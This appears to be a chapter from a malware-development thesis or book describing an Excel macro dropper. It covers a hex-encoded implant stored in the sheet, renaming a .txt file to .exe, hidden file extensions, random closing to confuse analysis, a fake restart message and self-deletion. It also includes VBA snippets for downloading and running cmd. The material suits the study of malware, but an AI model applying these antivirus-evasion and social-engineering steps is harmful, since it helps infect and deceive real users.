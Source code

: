 # Chapter 6: Development of a malware: dropper

This chapter illustrates in detail the techniques used for the construction of the dropper employed by our malware.

## 6.1 The choice to embed the implant

A dropper is a file that, unknowingly, downloads and executes a malicious program, the implant, on the target machine. To accomplish this, the most widely used technique is the "two-stage" approach. With this technique, system routines are exploited to download and subsequently execute the chosen malicious file (Figure 6.1).

**(Figure 6.1. Working mode of a generic dropper.)**


Thanks to the improvements made to antivirus systems, however, most malware are detected immediately. This happens by analyzing the function calls made by the program, specifically those related to download routines. In Figure 6.2, we show the result, obtained through VirusTotal, of scanning a simple dropper to illustrate the sensitivity of detection products to download routines (Figure 6.3).

**(Figure 6.2. VirusTotal labels the malicious file because of the UrlDownloadToFileA function.)**
*(Image: VirusTotal analysis showing detections by various AV engines for a file.)*

**(Figure 6.3. The incriminating part of the dropper.)**
*(Image: VBA code snippet: `retval = URLDownloadToFileA(uri, temp_dir & pay_name & ext, 0, 0)`)*

If we remove the aforementioned download functions, then the file passes the test and is not detected by VirusTotal (Figure 6.4). Other more complex attempts using PowerShell or cmd commands, unfortunately, did not yield better results (Figures 6.5 and 6.6). These attempts were necessary to identify the functions that alarmed the antiviruses and, therefore, to find an alternative to replace them. The results of these experiments are summarized in Figure 6.7.

**(Figure 6.4. The file is not detected by the AV software made available by VirusTotal.)**
*(Image: VirusTotal analysis showing 0 detections for a modified file.)*

**(Figure 6.5. VBScript code for executing a batch file via cmd.exe.)**
*(Image: VBA code snippet: `retVal = Shell("c" & "m" & "d" & " /K " & file_bat_complete_path, vbHide)`)*

**(Figure 6.6. VirusTotal immediately identifies the execution of batch commands within the file.)**
*(Image: VirusTotal analysis showing detections for a file executing batch commands.)*

**(Figure 6.7. VBScript functions that generate an alert.)**
*(Image: Table showing SUBROUTINE, API utilizzate (APIs used), DESCRIZIONE (DESCRIPTION), ALERT, VirusTotal TAG.
downloadFile | URLDownloadToFileA | Scarica una risorsa web (Downloads a web resource) | generato (generated) | "download"
noExt | CreateObject("WScript.Shell") | Cambia la modalità di visualizzazione dei file eliminando le estensioni (Changes file display mode by removing extensions) | nessuno (none) |
Auto_Open | nessuna (none) | Comandi VBScript eseguiti all'apertura del file Office (VBScript commands executed when the Office file opens) | generato (generated) | "auto-open")*

In light of what is highlighted in this figure, to implement our dropper we chose to use an uncommon, but no less effective, technique to import the implant onto the target. What we did was to insert, directly into our Office file, the malicious executable encoded in hexadecimal. As a result of this operation, we obtained an Excel file containing both our implant and minimal macros useful for converting the payload from hexadecimal to binary, i.e., into an executable (Figure 6.8).

**(Figure 6.8. The encoded implant inserted into the Excel file.)**
*(Image: Excel sheet showing cells filled with hexadecimal characters, representing the encoded implant.)*

The dropper, however, is not yet completely invisible to antivirus software; in fact, to activate the implant, it is necessary to call the command prompt which, as seen previously (Figure 6.7), alarms detection software. To overcome this, we devised another method that, by exploiting social engineering, leads the user to activate the malware themselves. This technique will be presented in the next section.

## 6.2 Attack mode

The entire logic of the dropper is encoded through the use of macros. The main function, namely the activation of the implant, is masked by other subroutines that have secondary tasks, such as, for example, deleting traces, printing error messages, and more. Below we describe step by step what our dropper does once started by the user, including how it manages to circumvent restrictions on the use of the shell (Figure 6.9).

1.  **Random restart.** A subroutine, with a 30% probability, closes the sheet as soon as it is opened, also reporting a generic error that invites the user to restart the application. The objective of this subroutine is to generate dynamic, random behavior that confuses analysis software.
2.  **Creation of the executable file.** The hexadecimal content of the sheet is translated into binary and written to a text file (.txt) in the current folder.
3.  **Change of extension.** The newly created text file is renamed by changing the extension from .txt to .exe. This action effectively makes it an executable. The operation, apparently useless, is fundamental for not alarming the antivirus with the creation of an executable file; in fact, what we did was only create a text file and rename it.
4.  **Creation of the purged file.** An Excel file identical to the current dropper is created, but without macros; then, the latter is saved in a hidden location (`C:\Users\Public`).
5.  **Disabling extensions.** Extensions are disabled so that it is no longer possible to distinguish the executable file (.exe) from the dropper (.xls).
6.  **Closing the document.** A message box informs the user that Excel has been updated, so it is necessary to restart it to continue working. As soon as the message is shown, the Excel sheet is automatically closed.
7.  **Deleting traces.** The Excel file, at this point, deletes itself from the disk, leaving in its place only the executable file (implant) without an extension, therefore indistinguishable from the just-deleted Excel file. It will then be the user who, in an attempt to reopen the just-deleted Excel file, will activate the implant with a double click.

**(Figure 6.9. The sequence of steps taken by the dropper to infect the system.)**

The result of this series of steps performed by the dropper is the importation of the implant onto the target machine and the creation of the purged copy of the Excel file. Now, it is the implant's task to do the rest. The task of starting the implant is left to the user themself; in fact, in the same position where the dropper was previously located, we now have our implant with the same name and the same icon as the old Excel file. The user, based on what was previously reported by the message box, will restart the Excel file that closed and, unknowingly, instead of activating the real Office file, will click on our implant.

Now, once the implant has started, it performs a series of steps, already detailed in Chapter 5. These are:

1.  **Duplication.** A necessary step to be able to manage persistence and on which we will return in subsequent chapters.
2.  **Starting the shellcode.** The implant retrieves, decrypts, and starts the shellcode.
3.  **Swap with the purged Excel file.** The executable swaps with the purged Excel file (devoid of any malicious code), so that, on the one hand, it erases the traces of the infection, and on the other, it prevents the implant from starting over and over again if the user were to click on it again.

At this point, our malware is running on the victim machine, but, at any moment, it could be terminated, for example, if the computer were turned off. Therefore, in the next chapter, we will discuss persistence techniques, which will allow our program to take root on the infected system.